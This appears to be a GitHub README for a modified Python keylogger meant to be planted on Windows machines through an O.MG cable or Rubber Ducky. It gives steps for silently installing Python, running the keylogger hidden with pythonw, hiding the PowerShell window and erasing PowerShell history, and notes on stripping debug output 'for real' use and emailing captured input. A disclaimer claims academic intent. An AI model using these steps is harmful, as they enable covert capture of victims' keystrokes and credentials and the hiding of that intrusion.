 # For windows ps

##### Orignal Python Code credit
From https://github.com/ncorbuk/Python-Keylogger

# ----Random Notes----

#### install via cable

#pip install pynput

#pip install pywin32

#pip install requests

#pip install easygui

#run powershell >  pythonw "C:\Path\Path\Path\OMG CABLE STUFF\python keylogger test.py"

#powershell -WindowStyle Hidden
#Remove-Item (Get-PSReadlineOption).HistorySavePath < removes powershell history

# --------------Install python via powershell---------------
#[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12

#wget "https://www.python.org/ftp/python/3.8.0/python-3.8.0.exe" -outfile "python-3.8.0.exe"

#.\python-3.8.0.exe /quiet InstallAllUsers=0 PrependPath=1 Include_test=0

# python keylogging program

##You will need to comment out the prints and exception prints on code if you were to use this for real, as its testing

##i have prints on here that will tell you and let you know what part of the program is going at the time and that it is

##working

#Youtube channel of original creator - https://bit.ly/2U58Lt9

#modified by me

# TO-DO list

### ADD

Set-ExecutionPolicy Default
Set-ExecutionPolicy -scope CurrentUser Default

# -----------------------------------------------------------------

Upload version of python script that just needs email inputted instead of om.g cables or ducky inputting the info into the box

# -----------------------------------------------------------------
Remove all .txt files will add incase internet connection breaks and errors start

import os

import glob

files = glob.glob('/tmp/*.txt')

for f in files:
    try:
        f.unlink()
    except OSError as e:
        print("Error: %s : %s" % (f, e.strerror))
#Insert into else on error
# -----------------------------------------------------------------

Optimize better

# -----------------------------------------------------------------

Do one for other OS's possibly if my attention span doesn't go else where

# -----------------------------------------------------------------
# -----------------------------------------------------------------

### Disclaimer
>These resources are only for testing and academic purposes and can only be used where strict consent has been given. Do not use them for illegal purposes! It is the end user’s responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by these tools, programs, scripts and software.
